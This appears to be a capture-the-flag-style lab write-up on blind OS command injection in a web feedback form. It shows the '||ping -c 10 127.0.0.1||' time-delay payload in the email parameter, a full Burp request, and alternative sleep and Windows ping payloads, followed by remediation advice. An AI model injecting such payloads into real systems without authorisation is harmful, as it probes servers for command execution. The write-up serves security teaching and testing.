

# Blind OS Command Injection - Time Delay Exploit

## Lab Description
This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing user-supplied details, but the command output is not returned in the response. The objective is to exploit this vulnerability to cause a 10-second delay.

## Vulnerability Analysis
The feedback function accepts user input that is directly passed to a system shell command without proper sanitization. Since the command output is not visible in the response (blind injection), we need to use time-based detection to confirm the vulnerability.

## Exploitation Steps

### 1. Identify the Vulnerable Parameter
The feedback form submits user details including an email parameter. Using Burp Suite, I intercepted the feedback submission request to analyze and modify the parameters.

### 2. Craft the Time-Based Payload
The following payload was injected into the `email` parameter to trigger a 10-second delay:

```
email=x||ping+-c+10+127.0.0.1||
```

**Payload Breakdown:**
- `||` - OR operator to chain commands
- `ping -c 10 127.0.0.1` - Pings localhost 10 times (causing ~10 second delay)
- `||` - Terminates the command chain cleanly

### 3. Execute the Attack
1. Intercepted the feedback submission request in Burp Suite
2. Modified the `email` parameter with the time-delay payload
3. Forwarded the modified request
4. Observed the response time

### 4. Result
The server response took approximately 10 seconds to return, confirming successful blind OS command injection.

## Burp Suite Request (Proof of Concept)

```http
POST /feedback/submit HTTP/2
Host: [target-lab].web-security-academy.net
Content-Type: application/x-www-form-urlencoded
csrf=Nqhqr10NrHR26hOHUzx7PDnsMpol27Bt&name=say&email=x||ping+-c+10+127.0.0.1||&subject=sss&message=s
```

## Time Delay Visualization

*Burp Suite showing the 10-second response delay confirming command injection*

## Alternative Payloads
Other time-based payloads that could work:
```bash
email=x||sleep+10||          # Unix sleep command
email=x||ping+-n+10+127.0.0.1||  # Windows ping
```

## Impact
A blind OS command injection vulnerability allows an attacker to execute arbitrary system commands on the server. This could lead to:
- Data exfiltration through out-of-band channels
- Reverse shell access
- Complete server compromise

## Remediation
- Never pass user input directly to shell commands
- Use parameterized APIs instead of shell execution
- Implement strict input validation and sanitization
- Apply the principle of least privilege to the application process
